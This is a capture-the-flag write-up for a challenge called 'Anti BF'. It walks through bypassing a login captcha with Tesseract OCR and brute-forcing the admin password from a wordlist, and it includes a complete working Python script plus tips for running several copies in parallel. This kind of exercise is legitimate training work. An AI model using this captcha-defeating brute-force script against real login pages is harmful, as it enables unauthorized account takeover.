




# Anti BF

```
A strange looking person is coming at you with a bright grin 
on his face. Interested, you ask him what's going on. He then 
says that he just implemented an anti-bruteforce on his
website's login page, and that there is no way for you to 
break it.

Prove him that his system is not that secure by login into his 
website.
```

Level : Medium\
Author : Mizu

## Write up
Programming language : Python 🐍

For this challenge, we need to login into his website by using the password list gived by the sweet owner.



The logging page require a simple captcha to secure the logging form and prevent the bruteforce. 
>*Big mistake to use this captcha ahah!*



Several problems we got :
* Submit the form
* Analyze the captcha
* Input passwords from the list

To take care about the form we are going to use the module `requests` of python. 

For this challenge we have to scrap the site and send the data after, to perform this we need a session. 

```python
with requests.Session() as s:
```

Now we can start our script with a scrapping. I use the same cookies for each requests.

```python
jar = requests.cookies.RequestsCookieJar()
jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

site = s.get(url, cookies=jar)
```
We got the site in the variable `site`, but it is a bunch of information and we just want the captcha. So, we are going to use `BeautifulSoup` to find our captcha.

After parse the code, and find the captcha, we see that is a picture encoded in **base64**. Cool, python got a module call `base64` to manage **decode/encode base64**. Just remember the image is encoded in base64, we will use it after.

We have to take care of the captcha, I found a software call `Tesseract OCR` https://github.com/tesseract-ocr/tesseract that recognize text in a picture, that perfect for our challenge! Moreover he have a python implementation with `pytesseract`.

Inform to the module, where is installed our software on the computer : 
```python
pytesseract.pytesseract.tesseract_cmd = "..\\Tesseract\\tesseract.exe"
```
Tesseract need a image to recognize the text, so we are going to use the module `cv2` to read our captcha input it on Tesseract to get the text. To perform this we have to save our image on our computer and after read with cv2.

To save our image, we are going to use the instance `Image` from `PIL`. Of course, our captcha is encoded in base64, remember it, so we have to decode it and read the bytes by using `BytesIO` from `io` for save the image.

```python
im = Image.open(BytesIO(base64.b64decode(b64)))
im.save('captcha%s.png' % sys.argv[1], 'PNG')

img = cv2.imread('captcha%s.png' % sys.argv[1])
```
Now our captcha is decoded and saved on our computer, we just need to say to tesseract, "Hey, identify the text in this picture!"

```python
captcha = pytesseract.image_to_string(img).replace('\n', '')
```

Tada! we got our captcha in a variable `captacha`. 
>Of course, Tesseract is not 100% accurate, so because we will bruteforcing, we must pray that the password is not the one where Tesseract failed to recognize.

We just send the data by using the function `post()` of requests, and store the site content to look at if you we got an error (wrong password or captcha) or if we found the password!
```python
r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)
```

We manage those errors by a set of condition and that it we repeat this process of each password from the password list

```python
if p[len(p)-1].text == 'Wrong credentials !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
elif p[len(p)-1].text == 'Wrong captcha !':
    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
else:
    print(Fore.GREEN+'+ password found : %s' % (password))
```
### Tips 

1. Make our script in a infinite loop until we got the good password, because if you reach the last password and the good one was with a wrong captcha, we fail our bruteforce. So I return `True` if we got the good password to terminate the script.
```python
def main():
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```

2. I also write the password in a file when we got the good one, to let the script run and go to sleep. Meanwhile, our script are going to try every password and if we get it, the script closes. 
```python 
with open('..\\flag.txt', 'w') as file:
    file.write('\n'.join((url, 'admin', password)))
```

3. I set a parameter to my script, this paramater is the number of our screen. Let me explain, If this number is odd the script lists the passwords from first to last, but if it is even then it is the opposite (from last to first). The goal is to have several terminals that run the script and enumerate the password in one direction and in the other.
```python
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False
...
if type: password = lines[i].replace('\n', '')
else: password = lines[len(lines)-1-i].replace('\n', '')
```

Final Code : 
```python
from PIL import Image
from io import BytesIO
import cv2
import pytesseract
import requests
import base64
import sys
from bs4 import BeautifulSoup
from colorama import init, Fore, Style

# Initialize colors
init()
print(Style.BRIGHT + "HEY YOU DON'T RUN FROM THE BRUTEFORCE!")

# Inform where is our Tesseract software to pytesseract
pytesseract.pytesseract.tesseract_cmd = "C:/Users/fox25/Desktop/python/Tesseract/tesseract.exe"

url = "http://antibf.ec2qualifications.esaip-cyber.com/login"

# This permit to have several terminals that run the script and enumerate the password in one direction and in the other.
type = True if ((int(sys.argv[1]) + 1) % 2 == 0) else False

def bruteforce():
    # Make the requests in a session
    with requests.Session() as s:
        # Read the password list
        with open('wordlist.txt', 'r') as file:
            lines = file.readlines()

            for i in range(len(lines)):
                # Filter the password
                if type: password = lines[i].replace('\n', '')
                else: password = lines[len(lines)-1-i].replace('\n', '')

                # Set the session cookies
                jar = requests.cookies.RequestsCookieJar()
                jar.set('session', '4d299fd8-871f-4b06-8086-ef26ba096ad3')

                # Scrap the logging page
                site = s.get(url, cookies=jar)

                # Parse the scrap
                soup = BeautifulSoup(site.text, 'html.parser')

                # Find the captcha
                imgcaptcha = soup.findAll('img', attrs={"class": "center-img mgb-1"})

                # Filter string to get just the base64 string
                b64 = imgcaptcha[0]['src'].replace('data:image/png;base64, ', '').encode()

                # Save the captcha into our computer
                im = Image.open(BytesIO(base64.b64decode(b64)))
                im.save('captcha%s.png' % sys.argv[1], 'PNG')

                # Load the picture
                img = cv2.imread('captcha%s.png' % sys.argv[1])


                # Recognize the text in the picture by using Tesseract
                captcha = pytesseract.image_to_string(img).replace('\n', '')

                # Post the datas and store the response (scrap the site another time)
                r = s.post(url, data={'username': 'admin', 'password': password, 'captcha': captcha}, cookies=jar)

                # Parse the response and find the response
                soup2 = BeautifulSoup(r.text, 'html.parser')
                p = soup2.findAll('p')
                msg = p[len(p)-1]

                # Check if the response is an error (wrong password/captcha) or the good password
                if p[len(p)-1].text == 'Wrong credentials !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                elif p[len(p)-1].text == 'Wrong captcha !':
                    print(Fore.RED+'- %s \t(%s --> %s)' % (password, captcha, msg.text))
                else:
                    print(Fore.GREEN+'+ password found : %s' % (password))
                    with open('..\\flag.txt', 'w') as file:
                        file.write('\n'.join((url, 'admin', password)))
                    return True


def main():
    # Repeat the bruteforce until we got the good password
    while True:
        if bruteforce(): break

if __name__ == '__main__':
    main()
```
This method have a lot of issues, and sure it is not the most optimize, moreover Tesseract is not 100% accurate.\


There is the flag :\

```
R2Lille{C4pTCh4_4r3_N0t_3n0uGh}
```